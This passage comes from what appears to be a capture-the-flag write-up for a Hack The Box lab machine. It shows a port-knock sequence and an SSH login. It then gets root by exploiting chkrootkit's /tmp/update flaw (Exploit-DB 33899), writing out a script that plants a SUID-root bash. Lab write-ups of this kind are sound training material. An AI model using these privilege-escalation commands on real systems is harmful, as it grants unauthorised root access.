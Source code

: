 ![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913125452.png)

Great we know sequence now so knock it and connect

```
knock -v 10.10.10.43 571 290 911 -d 500
ssh -i id_rsa amrois@10.10.10.43
```

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913125412.png)

## Privilege Escalation

Running linpeas, I found interesting files modified in last 5min and executable file chkrootkit (I'm skipping kernel exploits, because it is old box and probably 1 or more of thew will work)

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913130028.png)

Now I will download pspy64 on machine to check what generates report files

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913130353.png)

and as I thought it is chkrootkit binary
Searching google I found privesc for that
https://www.exploit-db.com/exploits/33899
`The vulnerability is located in the function slapper() in the shellscript chkrootkit:`

`Steps to reproduce: - Put an executable file named 'update' with non-root owner in /tmp (not mounted noexec, obviously) - Run chkrootkit (as uid 0)` 

`Result: The file /tmp/update will be executed as root, thus effectively rooting your box, if malicious content is placed inside the file.`

So let's add root bash to tmp:

```
echo -e 'cp /bin/bash /tmp/rootbash; chown root /tmp/rootbash; chmod +s /tmp/rootbash' > update

chmod +x update
```

and wait to execute

![](https://kar0nx.github.io/assets/images/writeup/Pasted image 20250913131319.png)

Now grab root flag